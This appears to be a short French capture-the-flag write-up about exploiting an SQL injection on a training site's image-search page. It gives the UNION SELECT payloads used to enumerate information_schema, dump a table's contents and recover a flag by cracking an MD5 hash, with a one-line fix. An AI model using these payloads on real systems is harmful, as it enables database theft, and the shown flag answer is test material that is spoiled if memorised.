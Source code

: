 <h1>Faille</h1>

Sur la page `searchimg`, il y a une SQL Injection.
Au début, j'ai affiché tous les users de la table avec `1 or 1` ce qui me permet de constater qu’il y a une SQL Injection.

`1 or 1`<br>
```1 UNION SELECT table_name, table_type FROM information_schema.tables```

- Rechercher les tableau de type "BASE TABLE"
- db_default users guestbook `list_images` vote_dbs

```1 UNION SELECT table_name, table_schema FROM information_schema.tables```
- Donc table_name: Member_images, table_schema: list_images

```1 UNION SELECT table_name, column_name FROM information_schema.columns```
- id, url, title, comment

```1 or 1 UNION SELECT  title, comment FROM Member_images.list_images```

1928e8083cf461a51303633093573c46 -> Decrypt with md5 -> albatroz -> hash with sha256 pour trouver le flag le flag

<h1>Éviter cette faille</h1>

Proteger les requetes SQL.

<h1>Ressources</h1>

Information_schema: https://mariadb.com/kb/en/information-schema-columns-table/